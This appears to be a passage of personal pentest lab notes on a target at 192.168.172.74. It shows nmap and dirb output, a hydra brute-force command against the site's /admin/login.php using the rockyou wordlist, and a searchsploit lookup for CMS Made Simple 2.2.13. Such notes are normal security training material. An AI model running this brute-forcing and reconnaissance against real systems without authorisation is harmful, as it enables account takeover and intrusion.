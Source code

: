 	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2020-03-25T09:30:14
	| Not valid after:  2030-03-23T09:30:14
	| MD5:   ab68:52c7:9ef3:3568:e534:a8f6:0670:3571
	|_SHA-1: 62d2:bb7c:d123:e6d4:7231:773c:0916:b2c8:05dd:3f48
	33060/tcp open  mysqlx?
	| fingerprint-strings: 
	|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
	|     Invalid message"
	|_    HY000

```
dirb http://192.168.172.74
```

---- Scanning URL: http://192.168.172.74/ ----
==> DIRECTORY: http://192.168.172.74/admin/                                      
==> DIRECTORY: http://192.168.172.74/assets/                                     
+ http://192.168.172.74/cgi-bin/ (CODE:403|SIZE:279)                             
==> DIRECTORY: http://192.168.172.74/doc/                                        
+ http://192.168.172.74/index.php (CODE:200|SIZE:19502)                          
==> DIRECTORY: http://192.168.172.74/lib/                                        
==> DIRECTORY: http://192.168.172.74/modules/                                    
+ http://192.168.172.74/phpinfo.php (CODE:200|SIZE:90299)                        
+ http://192.168.172.74/phpmyadmin (CODE:401|SIZE:461)                           
+ http://192.168.172.74/server-status (CODE:403|SIZE:279)                        
==> DIRECTORY: http://192.168.172.74/tmp/                                        
==> DIRECTORY: http://192.168.172.74/uploads/  


admin:admin fails. Trying hydra

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.172.74 http-post-form "/admin/login.php:username=^USER^&password=^PASS^:User name or password incorrect"
```

Too fast of threads or improper error message config this happens so make sure to limit threads -t
![[Pasted image 20231104134726.png]]


version CMS Made Simple version 2.2.13
```
searchsploit CMS Made Simple
```
	Exploits: No Results
	Shellcodes: No Results
	------------------------------------------------ ---------------------------------
	 Paper Title                                    |  Path
	------------------------------------------------ ---------------------------------
	CMS Made Simple v2.2.13 - Paper                 | docs/english/49947-cms-made-simp
